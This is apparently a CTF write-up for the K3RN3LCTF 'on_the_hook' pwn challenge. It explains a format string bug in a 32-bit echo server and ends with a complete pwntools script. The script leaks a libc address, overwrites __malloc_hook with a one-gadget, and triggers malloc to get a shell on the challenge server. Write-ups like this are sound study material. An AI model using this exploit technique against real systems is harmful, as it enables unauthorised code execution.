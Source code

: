 ```yaml
--- 
layout: post 
title:  "[K3RN3LCTF] on_the_hook"
date: "2021-11-15" 
categories: [Pwn, Fsb]
author: eurus 
---
```



This is the output of the checksec over the ELF of this challenge.

```
Arch:     i386-32-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

We can see from the main function that the program is a simple echo server.
But it use ```printf(s)``` and since the user can control the format string
of the printf we have here a **format string vulnerability**.

```c
int main(){

  char s[64];

  init();
  puts("echo:");
  for ( int i = 1; i <= 5; ++i ){
    fgets(s, 64, stdin);
    printf(s);
  }
  exit(0);
}
```

So we have 5 possible read or write operation.

This is the plan:
1. leak a libc address (Here i have leaked the return address of the main)
2. use the address leaked to find the address of the ```__malloc_hook```
3. use the format string vulnerability to write into the ```__malloc_hook``` the address of a one gadget
4. force the printf to allocate memory forcing to print a long string

we dont need to leak the version of the glibc version since the author of the challenge gave us the libc used on the server.


```
.text:0001862B                 push    [esp+64h+ubp_av] 
.text:0001862F                 push    [esp+68h+argc]  
.text:00018633                 call    [esp+6Ch+main]  ; call the main function
.text:00018637                 add     esp, 10h        ; return address of the main 0x18637 
.text:0001863A
.text:0001863A loc_1863A:                              
.text:0001863A                 sub     esp, 0Ch
.text:0001863D                 push    eax             
.text:0001863E                 call    exit
```



For semplicity I have used the fmtstr_payload function of the pwntools library.

From the pwntools documentation:

pwnlib.fmtstr.fmtstr_payload(offset, writes, numbwritten=0, write_size='byte') → str

Makes payload with given parameter. It can generate payload for 32 or 64 bits architectures. The size of the addr is taken from context.bits

```   
    offset (int) – the first formatter’s offset you control
    writes (dict) – dict with addr, value {addr: value, addr2: value2}
```


So this is the final exploit.

```python
from pwn import *

context.binary = elf = ELF('./on_the_hook')
libc = ELF('./libc.so.6')

#p = elf.process()
p = remote('ctf.k3rn3l4rmy.com', 2201)
p.recvline()

def leakat(i, p):
    p.sendline(f'%{i}$p')
    rec = p.recvline()
    leak = str(rec[:-1])[2:-1]
    log.info(f'@ {i}: {leak}')
    return leak

ret_libc = leakat(27, p)

print(ret_libc)
libc.address = int(ret_libc,16) - 0x18637
log.success(f'Libc base @ {hex(libc.address)}')
log.info(f'malloc hook @ {hex(libc.sym.__malloc_hook)}')

one1 = libc.address + 0x3ac5c
one2 = libc.address + 0x3ac5e
one3 = libc.address + 0x3ac62
one4 = libc.address + 0x3ac69
one5 = libc.address + 0x5fbc5
one6 = libc.address + 0x5fbc6


p.sendline(fmtstr_payload(7,{libc.sym.__malloc_hook:one3}))
p.sendline('%99999c')
p.interactive()
```


